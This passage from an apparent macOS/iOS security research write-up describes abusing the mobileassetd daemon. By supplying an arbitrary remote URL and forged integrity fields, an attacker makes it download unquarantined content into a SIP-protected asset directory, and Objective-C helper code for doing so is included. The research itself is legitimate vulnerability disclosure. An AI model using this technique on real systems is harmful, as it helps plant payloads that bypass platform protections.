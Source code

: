 On macOS, these assets are located in `/System/Library/Assets(V2?)`, while `/var/MobileAssets` is for iOS. This location is protected by SIP on mac, and it seems like there is a similar protection on iOS. Process `mobileassetd` will check if the desired type is in a hard-coded list; otherwise, it will require the client to have an entitlement named `com.apple.private.assets.accessible-asset-types`, whose value is a list for all the necessary asset types:

```c
__int64 ___isAssetTypeWhitelisted_block_invoke()
{
  _isAssetTypeWhitelisted_explicitWhitelist = CFSetCreateMutable(kCFAllocatorDefault, 0LL, &kCFTypeSetCallBacks);
  CFSetAddValue(
  _isAssetTypeWhitelisted_explicitWhitelist,
  CFSTR("com.apple.MobileAsset.DictionaryServices.dictionaryOSX"));
  CFSetAddValue(
  _isAssetTypeWhitelisted_explicitWhitelist,
  CFSTR("com.apple.MobileAsset.DictionaryServices.dictionary2"));
  CFSetAddValue(
  _isAssetTypeWhitelisted_explicitWhitelist,
  CFSTR("com.apple.MobileAsset.DictionaryServices.availableDictionaries"));
  // ...Dictionary assets are allowed in this list.
```

An ASAsset object has some interesting properties:

* __BaseURL
* __RelativePath
* __RemoteURL

Exploiting the daemon itself makes no sense. Though it's got root privilege, it has a sandbox. After playing around with it, I just realized that I could supply an arbitrary URL to make it download that asset to the protected directory. Those delivered contents have no quarantine flag.

Additionally, MobileAsset checks the integrity of an asset, so we need to supply the following fields with the corresponding value:

* _DownloadSize
* _UnarchivedSize
* _Measurement (sha256 hash)

```objectivec
- (void)setSource:(NSString *)remote {
    _source = remote;
    if (_attributes[@"__RemoteURL"]) {
        _attributes[@"__RemoteURL"] = remote;
    } else {
        NSURL *url = [NSURL URLWithString:remote];
        NSUInteger index = remote.length - url.path.length;
        _attributes[@"__RelativePath"] = url.path;
        _attributes[@"__BaseURL"] = [remote substringToIndex:index];
    }
}

- (void)update:(NSDictionary *)meta {
    for (id key in meta) {
        _attributes[key] = meta[key];
    }
}

- (boolean_t)downloadNonBlocking {
    return [self downloadAndWait:NO];
}

- (boolean_t)downloadBlocking {
    return [self downloadAndWait:YES];
}

```